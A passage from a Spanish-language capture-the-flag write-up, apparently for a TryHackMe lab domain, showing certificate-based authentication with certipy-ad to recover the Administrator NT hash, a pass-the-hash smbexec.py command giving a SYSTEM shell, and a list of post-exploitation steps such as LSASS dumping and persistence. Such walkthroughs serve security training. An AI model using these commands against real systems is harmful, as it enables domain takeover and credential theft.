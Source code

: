 Se generó el archivo administrator.pfx.
Autenticación con el certificado y obtención del hash NT del Administrador:
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.120.231
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@thm.local'
[*] Using principal: 'administrator@thm.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@thm.local': aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322
```

Se obtuvo el TGT para el administrador y su hash NT: aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322.
Ejecución de comandos como SYSTEM usando Pass-the-Hash con smbexec.py:
```
smbexec.py -k -hashes aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322 THM.LOCAL/Administrator@10.10.120.231
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

Se obtuvo una shell como nt authority\system en el host 10.10.120.231.

---

## Parte 5: Post-Explotación (opcional)
Con acceso nt authority\system, se tiene control total sobre la máquina 10.10.120.231 (LABYRINTH.thm.local). Las acciones de post-explotación podrían incluir:
- Dump de credenciales de SAM/LSASS.
- Movimiento lateral a otras máquinas del dominio.
- Establecimiento de persistencia.
- Búsqueda y exfiltración de información sensible.
- Obtención de la flag de root/administrador.

---

## Parte 6: Flags o evidencias obtenidas
- **Root Flag**:
```
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt CTF{***************}
```

---